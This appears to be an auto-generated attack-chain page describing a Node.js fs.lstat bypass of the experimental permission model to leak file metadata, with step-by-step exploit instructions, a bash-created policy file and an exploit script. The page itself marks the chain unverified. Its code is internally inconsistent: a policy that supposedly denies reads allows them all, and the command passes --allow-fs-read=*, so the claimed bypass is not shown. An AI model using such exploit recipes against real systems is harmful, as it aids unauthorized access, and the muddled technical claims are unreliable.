

# Node.js fs.lstat Permission Bypass for Unauthorized File Metadata Disclosure

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Node.js (version 20 or 22)

### Target Environment

- Node.js runtime with experimental permission model enabled
- Filesystem with restricted read permissions
- Flags: --experimental-policy, --allow-fs-read

### Initial Access Requirements

- Local access to Node.js environment
- Ability to execute Node.js scripts
- No prior network access needed; local filesystem exploitation

## Detailed Attack Procedures

### Step 1: Exploit Permission Bypass
procedure: [[procedures/Bypass-Node.js-Permission-Model-with-fs-lstat]]

**Objective**: Bypass Node.js experimental permission model restrictions to retrieve file metadata from files without explicit read access using fs.lstat.

**Instructions**: Set up a policy file denying read access to target files, then execute a Node.js script that uses fs.lstat under the --allow-fs-read flag to stat the file and disclose metadata.

First, create a policy file ([[commands/create-policy-file]]):

```bash
cat > policy.json << EOF
{
  "experimental-policy": {
    "default": "disallow",
    "allow-fs-read": ["*"]
  }
}
EOF
```

Then, create and run the exploit script ([[commands/node-fs-lstat-bypass]]):

```bash
cat > exploit.js << EOF
import fs from 'fs/promises';

async function statFile(path) {
  try {
    const stats = await fs.lstat(path);
    console.log('File stats retrieved:', stats);
  } catch (err) {
    console.error('Error:', err.message);
  }
}

statFile('/path/to/restricted/file.txt');
EOF

node --experimental-policy=policy.json --allow-fs-read=* exploit.js
```

**Expected Output**: File stats (e.g., size, permissions, modification time) printed to console, despite no explicit read permission.

**Success Indicators**:
- fs.lstat succeeds and outputs file metadata
- No permission denied error for lstat operation

## Attack Chain Summary

### Key Achievements

1. Bypassed Node.js permission model restrictions on filesystem operations
2. Retrieved sensitive file metadata without read access
3. Demonstrated information disclosure in controlled Node.js environments

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[File and Directory Discovery]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Privilege Escalation]]
- [[Discovery]]

---
*Last updated: 2023-09-12T00:00:00Z*
